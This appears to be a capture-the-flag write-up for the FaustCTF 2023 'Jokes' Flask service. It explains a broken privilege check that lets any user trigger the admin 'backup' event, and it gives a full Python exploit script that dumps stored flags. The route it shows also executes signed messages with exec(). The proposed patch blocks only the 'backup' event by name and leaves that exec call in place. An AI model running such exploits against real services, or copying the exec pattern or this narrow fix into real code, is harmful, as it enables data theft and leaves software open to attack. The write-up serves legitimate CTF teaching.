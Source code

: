 ![FaustCTF 2023 Logo](https://2023.faustctf.net/img/faustctf.svg)

# FaustCTF 2023: Jokes

---

## Enumeration & Manual Exploitation
Jokes is a Webservice written in Python (Flask). It also uses an sqlite database to store both users and jokes. Jokes will be added by the flag bot later on and will contain flags. The problem is that they require higher privileges to view.

### Routes

The service consists of several different routes. The routes `/login`, `/register` and `/logout` are handling everything related to authentication. In this specific case, these routes are not very interesting for the further exploitation.

To create and alter the content of jokes, the services also consists of the routes `/review`, `/like-joke` and `/profile`. The first two are also not interesting. The code of `/profile` contains the following function:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"): # Checks the post parameter 'event'. Depending on this parameter, different code gets executed 
        if request.form.get("privileges") == "admin": # Checks if User has admin priviliges
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public": # Public view. 
            return eventhandler[PublicEvent(event)]() # Note that there is no valid check whether or not we have the proper permissions to execute the service. Just doing PublicEvent() is in this case not enough!
    return profile()
```

#### Why is that check not enough?
The code for handling events looks like the following:
```py
# events.py
class AbstractEvent(ABC, str):
    @abstractmethod
    def hidden(self):
        pass


class PublicEvent(AbstractEvent):
    hidden = False

    def __init__(self, category):
        pass # removed for simplicity


class AdminEvent(AbstractEvent):
    hidden = True

    def __init__(self, category):
        self.category = category


eventhandler = dict()


def register_event(event, handler, admin=True):
    if admin:
        eventhandler[AdminEvent(event)] = handler
    else:
        eventhandler[PublicEvent(event)] = handler

# main.py
def init_eventhandler():
    register_event("submit", app.submit_joke, False)
    register_event("review", app.review, False),
    register_event("export", app.export, False)
    register_event("backup", app.backup)

```

To show that the check that is currently implemented is not enough, we can try the following:
```py
print(f"Eventhandler: {eventhandler}")
print(f"""AdminEvent: {eventhandler[AdminEvent("backup")]}""")
print(f"""PublicEvent: {eventhandler[PublicEvent("backup")]}""")
print(f"""String: {eventhandler["backup"]}""")
```
Output:
```py
Eventhandler: {'submit': <function submit at 0x00020179C6FEA020>, 'review': <function review at 0x00000179C6FEA120>, 'export': <function export at 0x00000179C6FEA220>, 'backup': <function backup at 0x00000179C6FEA020>}
AdminEvent: <function backup at 0x00000179C6FEA020>
PublicEvent: <function backup at 0x00000179C6FEA020>
String: <function backup at 0x00000179C6FEA020>
```
As you can see, we always get the pointer to the same function. It does not matter if we create an AdminEvent, PublicEvent or even string. Because of that, the check that was mentioned above is not enough to check for permissions!

## Exploitation
Using our new intel about the service, the following exploit can be created:

```py
#!/usr/bin/env python3

import os
import json
import time
import random
import string
import requests


### HELPERS ###
def gen_random(n):
    return ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(n))

headers = {'User-Agent': 'python-requests/2.29.0',
           'Accept-Language': 'en-US,en;q=0.5',
           'Content-Type': 'application/x-www-form-urlencoded',
           'Upgrade-Insecure-Requests': '1'}

### END HELPERS ###

HOST = os.getenv('TARGET_IP') # Will automatically be set by our attack platform!
#HOST = "fd66:666:1::2"

session = requests.session()
username = gen_random(5)
password = gen_random(5)

data = {
    "name": username,
    "password": password
}

session.post(f"http://[{HOST}]:5000/register", headers=headers, data=data) # Create a new user

session.post(f"http://[{HOST}]:5000/login", headers=headers, data=data) # Login as the new user


backup_body = {
    "privileges": "public",
    "event": "backup"
} # This is the main part of the exploit. The service never enforces the privilege policy. Because of that, we can set the priviliges to public and circumvent any restriction measurements. By default the privileges of this request are set do "admin"

req = session.post(f"http://[{HOST}]:5000/profile", headers=headers, data=backup_body) # Get backup using the "backup" event to dump all existing jokes

print(req.text)
```

Example output:
```py
{"Animal":["Q: Can a kangaroo jump higher than the Empire State Building? A: Of course. The Empire State Building can't jump.","Q: Why couldn't the leopard play hide and seek? A: Because he was always spotted."],"Blonde":["A blonde, a redhead, and a brunette were all lost in the desert. They found a lamp and rubbed it. A genie popped out and granted them each one wish. The redhead wished to be back home. Poof! She was back home. The brunette wished to be at home with her family. Poof! She was back home with her family. The blonde said"],"Dad":["FAUST_tpYmKVpLTCWDsOIZXa2APD6awRFBhfxi", "FAUST_6SgoNljU4hikeipPGRNA0VkYZdI4UqDI", "FAUST_bcjJuN9LKGDir5gzIHPkbEA9XfvpHwKv"]}
```
By altering the value of the privileges key from `admin` to `public` in the last request to `/profile`, we can backup every joke that has been created even though we are not administrator.

## Patching
To patch the exploit, the only thing we have to do is to block access to the backup function if we are not an administrator. The following code shows a patched version of the service:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"):
        if request.form.get("privileges") == "admin":
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public":
            if request.form.get("event") == "backup" and flask_login.current_user != "admin": # Check for admin privileges
              return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401  # Throw error if not permitted

            return eventhandler[PublicEvent(event)]()
    return profile()
```

If we now try the exploit from before, we get the following error message:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Jokes</title>
    <link rel="stylesheet" href="../static/stylesheet/bulma.min.css">
</head>
<style>p {
    word-break: break-all;
    white-space: break-spaces;
}
.column{
    margin: 5px
}
.buttons{
    display: flex;
  justify-content: space-around;
}
.like-button-container {
    display: flex;
    flex-direction: row;
    align-items: center;
    justify-content: flex-end;
    margin-top: 10px; /* Adjust the margin as needed */
}
.like-button{
    background: #ffffff;
      border: 1px solid #000000; /* Green */
}

</style>
<body>
<div class="container has-text-centered"
     style="width: 100%; position: fixed; left: 50%; top: 50%; transform: translate(-50%, -50%);">

<h1>Your privileges are not sufficient.. but here's a joke: </h1>
    Q: Why did the witches&#39; team lose the baseball game? A: Their bats flew away.

</div>
</body>

</html>
```
